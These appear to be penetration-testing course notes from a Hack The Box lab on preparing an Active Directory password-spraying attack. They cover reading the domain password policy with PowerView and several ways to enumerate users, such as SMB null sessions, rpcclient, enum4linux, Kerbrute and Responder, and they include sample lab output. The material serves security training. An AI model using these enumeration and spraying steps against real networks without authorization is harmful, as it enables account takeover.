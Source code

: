 ```
PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```

## Password Spraying

Before spraying we first need a list of valid domain users to attempt to authenticate with.

Several techniques exists like&#x20;

* leveraging an SMB NULL session
* LDAP anonymous bind to query LDAP anonymously
* `Kerbrute` to validate users utilizing a word list
* [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid users
* Using a set of credentials from a Linux or Windows attack system either provided by our client or obtained through another means such as LLMNR/NBT-NS response poisoning using `Responder`

No matter the method we choose, it is also vital for us to consider the domain password policy.

Weneed to know minimum password length, account lockout threshold and how many minutes we should wait between spray attempts.

### SMB NULL Session to Pull User List

**Using enum4linux**

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

administrator
guest
krbtgt
lab_adm
htb-student
avazquez
pfalcon
fanthony
[...]
```

**Using rpcclient**

It's good to know the `enumdomusers` command after connecting anonymously using `rpcclient`.

```
rpcclient -U "" -N 172.16.5.5

rpcclient $> enumdomusers 
user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
[...]
```
